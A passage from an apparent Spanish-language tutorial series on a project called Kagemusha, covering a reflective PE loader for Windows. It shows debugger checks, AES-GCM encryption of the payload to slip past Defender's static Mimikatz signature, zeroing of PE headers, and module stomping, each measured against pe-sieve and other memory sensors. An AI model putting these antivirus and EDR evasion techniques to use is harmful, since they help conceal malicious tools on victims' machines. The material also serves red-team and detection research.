- Estática:
dumpbin /headers pe_hello.exe→ comparaSizeOfImage,AddressOfEntryPoint, número de secciones y.pdatacon lo que imprime tu loader. - Imports:
dumpbin /imports pe_hello.exe→ el total debe coincidir con tu contador; cadadpsde la IAT debe apuntar a un módulo real. - Dinámica: ejecuta bajo
cdby comprueba la pila y la memoria:
cdb -o mini_loader.exe pe_hello.exe
0:000> bp <base>+<entry> ; o pon un DebugBreak() en el loader
0:000> g
0:000> kb ; pila: EntryThread -> payload
0:000> u <base>+<entry> L8 ; las instrucciones son las del PE?
0:000> !address <base> ; region reservada, proteccion RX tras el protect
0:000> dps <base>+<IAT_RVA> ; imports resueltos- Contra un sensor:
pe-sieve --pid <pid>escanea el proceso y te dice si ve un PE implantado, secciones raras o IAT hooks. En el Paso 15 lo usamos como juez.
Tabla de fallos típicos (y su causa real)
| Síntoma | Causa probable | Dónde mirar |
|---|---|---|
0xC0000005 al entrar al entry | RVA tratado como offset, secciones mal copiadas o relocs ausentes | Pasos 5–8; u en cdb |
0xC000001D (instrucción ilegal) | PE de 32 bits ejecutado en x64 | FileHeader.Machine, magic |
| El MessageBox no aparece y exit=0 | Entry equivocado, o el hilo no se esperó | Imprime entry, espera el hilo |
| Crash dentro de la primera API importada | IAT con NULL o con un RVA | dps de la IAT |
0xC0000135 (DLL no encontrada) | LoadLibrary falló (API set, ruta) | Imprime el nombre de la DLL |
0xC0000409 (stack buffer overrun) | Pila desalineada o CET | Usa CreateThread, no llames a pelo |
Funciona sin excepciones y falla con try/catch | .pdata sin registrar | Paso 11; RtlLookupFunctionEntry |
| NX fault tras borrar cabeceras | Borraste headers que el loader aún leía | Paso 15: borra después de proteger |
La lección de método: no adivines. Cada fila de esa tabla se responde con una consulta al depurador o a dumpbin. Si un paso no tiene oráculo, invéntalo: imprime el valor, compáralo con dumpbin, o detén el proceso y mira la memoria.
Paso 14 — Cifrar en reposo: que el PE no viaje en claro
Qué buscamos: que el fichero que llevas de un sitio a otro no contenga un PE reconocible, y que el loader lo descifre solo en memoria.
Motivación medida en el proyecto: Defender caza el PE en claro en disco por contenido (HackTool:Win32/Mimikatz!pz, con veredicto diferido en la nube). El mismo PE dentro de un blob cifrado no dispara esa firma estática. Eso no es invisibilidad: es una capa de transporte. El PE acaba en claro en memoria al ejecutar (y ahí lo verán otros sensores).
Qué cifrado usar (y cuál no)
No inventes criptografía. Usa un esquema AEAD (Authenticated Encryption with Associated Data): cifra y autentica en una sola operación. En Windows, la vía nativa es CNG/BCrypt con AES-256-GCM.
- Clave: 32 bytes para AES-256. El usuario aporta un secreto de 16 bytes (32 hex) y se deriva la clave con HMAC-SHA256:
AesKey = HMAC-SHA256(UserKey, "KAGE-AEAD-v3" || Salt[8]). La KDF no añade fuerza (sigue mandando el secreto del usuario); solo adapta longitud y diversifica por artefacto. - Nonce: 12 bytes únicos por blob. Reutilizar nonce con la misma clave rompe GCM por completo.
- Tag: 16 bytes. Se verifica antes de usar el plaintext; si no coincide, abortas (no hay "descifrado a medias").
- AAD: la cabecera del contenedor (magic, longitudes, salt, nonce). Así un atacante no puede cambiar metadatos sin invalidar el tag.
El contenedor de Kagemusha, a grandes rasgos:
KGC3 = [magic derivado por HMAC] [salt 8] [nonce 12] [longitudes] [CRC]
[payload cifrado (LZNT1 opcional)] [tag 16] [padding variable]La versión 3 deriva el magic con HMAC (no hay una constante "KGC3" en el binario), usa padding variable y no lleva trailer. La versión 2 (KGC2) usa AES-256-GCM + LZNT1 + CRC y un magic fijo; ambas se despachan por magic.
El flujo del loader
// 1) Leer el blob entero (nunca a un fichero temporal en claro).
ReadFileAll("payload.kc3", &blob);
// 2) Derivar la clave (HMAC-SHA256) y descifrar en memoria.
// Pseudocodigo con CNG: la implementacion real esta en src/core/crypt2.c
BCryptOpenAlgorithmProvider(&hAes, BCRYPT_AES_ALGORITHM, NULL, 0);
BCryptSetProperty(hAes, BCRYPT_CHAINING_MODE,
BCRYPT_CHAIN_MODE_GCM, sizeof(BCRYPT_CHAIN_MODE_GCM));
BCryptGenerateSymmetricKey(hAes, &hKey, NULL, 0, aesKey32, 32, 0);
BCRYPT_AUTHENTICATED_CIPHER_MODE_INFO auth;
BCRYPT_INIT_AUTH_MODE_INFO(auth);
auth.pbNonce = nonce; auth.cbNonce = 12;
auth.pbTag = tag; auth.cbTag = 16;
auth.pbAuthData = aad; auth.cbAuthData = aadLen;
BCryptDecrypt(hKey, ciphertext, ctLen, &auth, NULL, 0, plain, plainCap, &plainLen, 0);
// Si BCryptDecrypt falla (tag invalido), ABORTAR. No mapear nada.
// 3) Mapear el PE desde `plain`, como en los pasos 3-12.
// 4) Borrar clave y buffer fuente.
SecureZeroMemory(aesKey32, sizeof(aesKey32));
SecureZeroMemory(plain, plainLen);La higiene que casi nadie hace
Un detalle que el proyecto descubrió con un oráculo de carving (buscar restos de PE en memoria): el PE completo seguía en el heap después de mapearlo, porque el buffer descifrado no se borraba. El fix fue limpiar el buffer fuente (con la longitud real de cada ruta) y el blob tras abrirlo. Medido después: MZ_header privado 0 (antes 1).
Reglas:
- Borra la clave y el plaintext en cuanto dejes de necesitarlos (
SecureZeroMemory, nomemsetnormal: el compilador puede eliminar un memset "inútil"). - No pases la clave por
argv(visible en Sysmon EID 1 / WMI). Usa@ficheroo una llamada que la lea de otro sitio. - No comprimas después de cifrar (no comprime) ni cifres con RC4 "porque es más simple": RC4 es un cifrado de flujo obsoleto y sin autenticación.
- Nonce único: si empaquetas dos veces el mismo payload, genera nonce nuevo.
Compruébalo: strings payload.kc3 no debe mostrar MZ, nombres de DLL ni strings del payload. El loader debe imprimir el mismo exit=7 que con el PE en claro. Y si cambias un byte del blob, debe fallar ruidosamente (tag inválido), no ejecutar basura.
Paso 15 — Borrar cabeceras y medir lo que queda
Qué buscamos: quitar la firma "esto es un PE" de la memoria y, sobre todo, medir qué ve un escáner externo.
Un escáner tipo pe-sieve busca PEs implantados en memoria: cabeceras MZ, secciones coherentes, IAT apuntando dentro de la imagen. Si el PE está mapeado en memoria privada con sus cabeceras intactas, lo marca. Una mitigación simple: cero la página de cabeceras y la dejo de solo lectura.
static void ZeroHeaders(PVOID base, SIZE_T headersSize)
{
ULONG old = 0;
PVOID p = base;
SIZE_T s = headersSize;
if (VirtualProtect(p, s, PAGE_READWRITE, &old)) {
SecureZeroMemory(p, s); // MZ, PE, secciones: todo a 0
VirtualProtect(p, s, PAGE_READONLY, &old);
}
}Dos avisos que el proyecto aprendió a golpes:
- Borra después de proteger las secciones y de usar las cabeceras.
KageMapPeProtectlee losSectionHeaderpara saber qué proteger; si los has zerado antes, lee ceros y el payload muere con un fallo de ejecución (NX fault). Orden correcto: mapear → resolver → proteger secciones → zerar cabeceras. - Esto no borra el código ni los datos. El payload sigue ahí, ejecutable. Un escáner que no dependa de las cabeceras (firmas de código, strings, secciones) puede seguir viéndolo. La medición es la que manda: en Kagemusha,
anon + zerohdrbajó pe-sieve de 1 señal (Implanted PE) a 0, pero la pila seguía mostrando frames privados.
Tres formas de vivir en memoria (y su trade-off)
| Modo | Qué hace | Ventaja | Señal que deja |
|---|---|---|---|
| anon | VirtualAlloc privado RW→RX | Simple; no toca ninguna DLL | Frames de pila privados (medido: 24.5 % de syscalls en el sensor de pila); pe-sieve con zerohdr: 0 |
| mapped | PE en una sección pagefile, MEM_MAPPED, headers a cero | Type=MEM_MAPPED en vez de privado; con entryspoof+stackwatch bajó a 0/400 frames privados | La sección en sí; el contenido sigue siendo tuyo |
| image | Sobrescribe la .text de una DLL firmada (module stomping) | MEM_IMAGE, pila 100 % con nombre | Imagen modificada: pe-sieve ve 46 183 patches en msi.dll; 2 protects |
No hay un "mejor" universal: hay que elegir según el sensor que te importe. Esa frase, que suena a excusa, es en realidad el resultado central de la fase F19 del proyecto: el artefacto se mueve, no desaparece.
La medición final
Con el loader funcionando:
pe-sieve.exe /pid <pid> /shellc 3 /data 3 /threadsOjo con la sintaxis: pe-sieve usa /shellc (no /shellcode) y admite /pid, /data, /threads. En la réplica, --shellcode devolvía "Invalid parameter".
- anon sin zerohdr: 1
Implanted PE+ 1 shc. Las cabeceras intactas delatan un PE; el código mapeado también parece shellcode por estadística. - anon + zerohdr: 0
Implanted PE+ 2 shc. Has quitado la firma de PE, pero no la señal de "código ejecutable no respaldado por módulo": la pila sigue teniendo frames privados. - mapped + zerohdr + entryspoof + stackwatch: 0 implantados y 0 frames privados (medido en Kagemusha con un payload KGC3).
- image (stomp): 0 frames privados, pero la imagen queda modificada mientras corre (el modo efímero la restaura al terminar).
Y lo que ningún modo de esta lista resuelve:
- TLS callbacks: si el PE los necesita y no los llamas, puede fallar. Kagemusha elige candidatas sin TLS (
HasTls == 0) o ejecuta en un worker preexistente. - CFG (Control Flow Guard): las llamadas indirectas a funciones no registradas pueden fallar; un loader casero no registra el payload como destino válido.
- CET/IBT: si el sistema exige
endbr64en los destinos de llamada indirecta, el código compilado sin esa instrucción puede fallar. Kagemusha lo trata como gate (rechazo ruidoso) en los modos cubiertos. - ETW-TI y sensores de kernel: ven los mapeos/allocaciones ejecutables aunque las cabeceras estén a cero. El proyecto lo midió: el staging deja 2 eventos TI por run; el stomp desde imagen, 0; pero el sensor existe.
- Conducta: qué hace el payload después (tocar LSASS, lanzar procesos, escribir ficheros) es otra capa, y la más decisiva.
Checklist final del mini-loader
- ¿Validé
MZ,e_lfanew, firmaPE\0\0, magic0x20By número de secciones? - ¿Reservé
SizeOfImage(no el tamaño del fichero) y con la alineación correcta? - ¿Copié cabeceras y secciones, con BSS a cero y límites comprobados?
- ¿Apliqué
DIR64cuandodelta != 0y rechacé tipos desconocidos? - ¿Resolví todos los imports y verifico
DLL!funcionantes de escribir la IAT? - ¿Contemplé API sets/forwarders/delay-load (o los detecto y aviso)?
- ¿Registré
.pdatay comprobéRtlLookupFunctionEntry(entry)? - ¿Ejecuté en un hilo con pila alineada e intercepté
ExitProcess? - ¿Cifré el blob con AEAD, nonce único y borré clave/plaintext?
- ¿Medí con
pe-sieve/ETW y sé qué señal deja mi modo elegido?
Réplica verificada: qué se probó (y qué falló de verdad)
Este tutorial no se publicó sin ejecutarlo. Se compiló con MSVC x64 (/W4 /O2 /MT) y se probó con cuatro payloads: pe_silent (devuelve 7), pe_sleep (duerme 20 s), pe_seh (excepción capturada) y el mismo PE empaquetado. Resultados reales:
| Prueba | Resultado |
|---|---|
mini_loader.exe pe_silent.exe | exit 7; 775 relocations; 70 imports; 339 entradas .pdata; lookup del entry encontrado |
mini_loader.exe pe_silent.exe zerohdr | exit 7; 1 024 bytes de cabeceras a cero y en RO |
mini_loader.exe pe_seh.exe | exit 7: la excepción se captura (el .pdata registrado funciona) |
mini_loader.exe pe_seh.exe nopdata | 0xE0000001: sin .pdata, el unwind no encuentra el __except y el proceso muere |
--pack / --run (MGT1 + AES-GCM) | exit 7; el blob empieza por MGT1, no contiene el patrón del PE; clave mala o byte alterado → tag inválido (exit 1); clave en @fichero OK |
pe-sieve /pid ... /shellc 3 /data 3 sin zerohdr | Implanted PE 1 · shc 1 |
pe-sieve ... con zerohdr | Implanted PE 0 · shc 2 |
pe-sieve ... con blob cifrado + zerohdr | Implanted PE 0 · shc 2 (el PE no quedó en el heap) |
Dos erratas encontradas al replicar (ya corregidas arriba): (1) RtlLookupFunctionEntry con NULL en el tercer argumento revienta en esta build; hay que pasar una tabla de historial a cero. (2) La opción de pe-sieve es /shellc, no /shellcode.
Y una precisión importante: zerohdr elimina la señal de PE implantado, pero no la de shellcode: el código mapeado sigue pareciendo código ejecutable sin módulo (2 shc en la réplica). Cuando en Kagemusha se habla de "0 señales" con mapped + zerohdr + entryspoof + stackwatch, significa 0 PE + 0 frames privados en el sensor de pila, no "0 señales de cualquier tipo". La distinción es la diferencia entre una medida y un eslogan.
Cinco ideas que conviene desmontar
Antes de cerrar, cinco frases que se leen mucho y que este tutorial debería haber dejado claras:
1. "Un PE es un .exe." No: una .dll, un .ocx y muchos drivers usan el mismo formato. Cambia el punto de entrada (en una DLL es DllMain(HMODULE, DWORD, LPVOID)) y cambia lo que el fichero exporta, pero el esqueleto —cabeceras, secciones, imports, relocs— es el mismo. Si entiendes el tutorial, entiendes ambos.
2. "Mapear es copiar el fichero a memoria." Es el error número uno. En disco las secciones están alineadas a FileAlignment (0x200); en memoria, a SectionAlignment (0x1000). Además hay BSS que no existe en disco, cabeceras que deben quedar accesibles, relocations que ajustar e imports que rellenar. Copiar el fichero tal cual y saltar al entry funciona en casos triviales y falla en cuanto el PE hace algo serio.
3. "Si ejecuta, el loader está bien." Ejecutar solo demuestra que el happy path de un payload concreto funciona. No demuestra que las páginas tengan la protección correcta (RWX es una señal), que la pila esté limpia, que las excepciones se puedan desenvolver, que TLS esté atendido, que CFG no bloquee una llamada indirecta o que el payload no se lleve el proceso por delante con ExitProcess. La mitad de los bugs de un loader aparecen en la segunda ejecución, con otro payload, o bajo un depurador.
4. "Evitar LoadLibrary es evadir." No exactamente. Al evitar el cargador cambias qué señal dejas: desaparece el evento de carga de imagen (EID 7) y aparecen mapeos de sección, protects, páginas privadas y un entry que no pertenece a ningún módulo. La invisibilidad no existe; existe un presupuesto de señales y cada técnica mueve el gasto de un sensor a otro. Ese es el hilo conductor de toda la serie de Kagemusha.
5. "Cifrar el PE lo hace indetectable." Cifrar protege el transporte y el almacenamiento: en disco no hay MZ ni strings reconocibles. Pero al ejecutar, el PE está en claro en memoria, y los sensores de memoria, pila y kernel siguen ahí. Además, si no borras la clave y el buffer descifrado, el "cifrado" deja el payload entero en el heap. La capa criptográfica es necesaria, no suficiente.
Y una sexta, que resume el método: "pe-sieve no encontró nada, luego soy invisible." pe-sieve es un oráculo, no el veredicto final. ETW-TI ve los mapeos; un stack walk ve los frames; un EDR comercial puede ver más. La única afirmación honesta es la que se midió: "con este payload, en esta build, contra este sensor, la señal fue X". Todo lo demás es fe.
Lo que acabas de construir (y lo que le falta para ser Kagemusha)
El mini-loader de este tutorial ejecuta un PE real sin LoadLibrary, con imports, relocations y excepciones. Es el esqueleto exacto de KageMapPe. La diferencia con el proyecto completo es de profundidad y medición, no de magia:
| Tutorial | Kagemusha (F16–F19) |
|---|---|
LoadLibrary para dependencias | Imports por hash en módulos ya cargados (F19.3) y manual load de 10 DLLs sin Ldr/EID 7 (F19.6) |
| IAT normal | iatspoof: trampolines de 112 B con guarda anti-recursión (F19.5) |
| Entry por hilo | entryspoof: NtContinue + pila sintética, walk limpio (F19.1) |
| AES-GCM + wipe | KGC2/KGC3 con KDF, LZNT1, magic derivado y padding (F16/F19.4) |
zerohdr | mapped, stackwatch, 5 flags combinables y gates fail-loud (F19.2) |
| "Funciona en mi máquina" | 687/624 checks, pe-sieve, ETW-TI, cdb y Ghidra como oráculos |
Tres ejercicios para seguir
- TLS: localiza
DataDirectory[9], recorre los callbacks y llámalos conDLL_PROCESS_ATTACHantes del entry. Prueba con una DLL que los use (dbghelp) y verás por qué Kagemusha las evita. - Delay imports: implementa la resolución de
DataDirectory[13]y compárala con dejar que el helper del payload lo haga. - CFG/IBT: compila el payload con
/guard:cfy/CETCOMPAT, ejecútalo en los tres modos y mide qué falla. Es el tipo de límite que no se arregla con unmemset.
Referencias
- Código real del loader:
Kagemusha/src/core/pemap.c(KageMapPe, relocs, imports,.pdata, zerohdr),src/core/crypt2.cysrc/core/crypt3.c(contenedores),tests/run_tests.c(T69–T81). - Documentación del proyecto:
docs/research/e16-crypter-diseno.md,docs/research/f19.2-option-matrix.md,docs/research/f19-refuerzo-debilidades.md. - Microsoft Learn — PE Format, Import Table, Base Relocations, RtlAddFunctionTable, BCrypt AES-GCM, Thread Local Storage.
pe-sieve(hasherezade) como oráculo de artefactos en memoria;dumpbinycdbcomo oráculos estático y dinámico.- Entradas relacionadas de la serie: F10 — Contra-instrumentación, F11–F13 — Del staging al full-stack, F14–F15 — El módulo prestado y Por qué la evasión es en capas.